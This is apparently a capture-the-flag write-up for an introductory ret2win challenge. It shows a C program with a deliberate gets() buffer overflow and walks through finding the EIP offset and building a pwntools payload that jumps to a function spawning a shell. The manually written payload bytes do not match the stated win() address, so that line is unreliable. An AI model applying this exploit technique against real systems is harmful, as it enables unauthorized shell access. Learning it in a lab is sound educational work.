


# Intro 2

Once again we have the source and the binary

main.c:
```
#include <stdlib.h>
#include <stdio.h>

void win(){
    system("/bin/sh");

}

void vuln(){
    char buf[55];
    gets(buf);
}

int main(){
    puts("Level 2: Control the IP\n");
    vuln();
    return 0;
}
```

checksec :
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Okay 32bit binary, again using "gets" so we know we can overflow this.

This time we want to overflow the instruction pointer and call the win() function as that will give us a shell

Same deal as intro1. Send the cyclic pattern and look at the stack in GDB




So we want to control the instruction pointer (EIP) The value in EIP from our pattern is "araa" so running "cyclic -l araa" returns 67 so our offset is 67

Because PIE is not enabled we know the address of the win function. We can jump to this address by sending 67 junk data and the address of win

```
❯ objdump -D pwnme|grep win
080491d6 <win>:
```

so our payload would look like ```b'A' * 67 + b'\xd6\x91\x49\x80'```

Sending that to the server would give us a shell. But pwntools make this even easier:

```
OFFSET = 67
payload = OFFSET * b'A'
payload += p32(elf.symbols['win'])

io.sendline(payload)
io.interactive()
```




